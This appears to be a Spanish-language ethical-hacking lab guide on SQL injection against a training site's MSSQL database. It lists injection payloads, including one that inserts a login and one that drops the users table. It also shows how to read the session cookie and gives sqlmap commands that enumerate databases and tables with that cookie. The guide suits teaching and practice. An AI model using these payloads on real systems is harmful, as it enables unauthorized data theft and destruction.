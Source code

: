 ## 1. SQL Injection en Base de Datos MSSQL

### Payloads Básicos para Detectar Inyección
```sql
'OR 1=1 --
```

### Operaciones en Base de Datos
```sql
-- Agregar una entrada nueva
Admin'; Insert into login values('john','apple123');--

-- Eliminar tabla completa
blah'; DROP TABLE users; --
```

---

## 2. Extracción de Base de Datos MSSQL con SQLMap

### Proceso Manual de Preparación

**Paso 1: Acceso inicial**
- Navegar a: `http://www.moviescope.com/`
- Credenciales de login: **Usuario:** `sam` **Contraseña:** `test`
- Hacer clic en **Login**

**Paso 2: Obtener cookie de sesión**
- Una vez logueado, ir a **View Profile**
- Anotar la URL completa en la barra de direcciones
- Hacer clic derecho → **Inspect (Q)**
- En **Developer Tools** → pestaña **Console**
- Ejecutar comando para obtener cookie:
```javascript
document.cookie
```
- Copiar el valor de la cookie obtenida

**Paso 3: Preparar terminal**
```bash
sudo su
# Contraseña: toor
```

### Comandos SQLMap para Extracción

**Enumerar bases de datos:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=" --dbs
```

**Enumerar tablas de una base de datos específica:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope --tables
```
